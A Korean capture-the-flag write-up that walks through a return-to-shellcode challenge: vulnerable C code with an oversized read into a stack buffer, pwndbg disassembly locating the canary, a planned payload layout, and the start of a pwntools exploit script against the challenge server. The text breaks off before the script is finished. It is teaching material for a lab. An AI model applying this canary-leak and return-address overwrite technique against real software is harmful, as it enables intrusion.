 ```C
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
```

소스 코드에서도 Canary Leak을 활용하고, Return Address를 Overwrite하라고 명시해주었습니다. 

```C
read(0, buf, 0x100);
```

해당 구문에서 buf는 총 0x50의 바이트를 선언했지만 더욱 큰 0x100까지 read하므로 **Canary Leak**이 가능합니다.

### pwndbg

스택 프레임이 어떻게 구성되는지 확인해보겠습니다.

```armasm
0x00000000000008d1 <+4>:     sub    rsp,0x60
0x00000000000008d5 <+8>:     mov    rax,QWORD PTR fs:0x28
0x00000000000008de <+17>:    mov    QWORD PTR [rbp-0x8],rax
```

* 스택은 총 0x60(96byte)를 할당하고 **Canary**는 [rbp-0x8] 위치에 있는 것을 알 수 있습니다. 하지만 `char buf[0x50];`라 했으므로 buf는 총 80byte를 차지하고 있다.

```armasm
0x0000000000000956 <+137>:   lea    rax,[rbp-0x60]
0x000000000000095a <+141>:   mov    edx,0x100
0x000000000000095f <+146>:   mov    rsi,rax
0x0000000000000962 <+149>:   mov    edi,0x0
0x0000000000000967 <+154>:   call   0x730 <read@plt>

# read(0, buf, 0x100);
```

* `buf`는 총 80byte인데 `read()`로 읽어들이는 부분은 256byte이기에 Canary Leak이 확실하게 가능하다. 이로써 그려본 스택은 아래와 같다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/187845943-2a4f5713-5bc3-4c04-b8a3-bf915a936326.jpg" width = 350>
</p>

### pwntools

**buf, dummy**에 Shellcode와 부족한 Dummy를 채우고 Canary Leak을 통해 **Canary**값 넣고 **SFP** 8byte Dummy 채우고 **RET**는 Buf 주소를 넣으면 된다.

```python
from pwn import *

#p = process("./r2s")
p = remote('host3.dreamhack.games', 20609)
context.arch = "amd64"

def slog(n, m):
    return success(': '.join([n, hex(m)]))

# [1] Get information about buf
p.recvuntil('buf: ')
buf = int(p.recvline(), 16)
p.recvuntil('$rbp: ')

buf2sfp = int(p.recvline().split()[0])
buf2cnry = buf2sfp - 8

slog('buf <=> sfp', buf2sfp)
```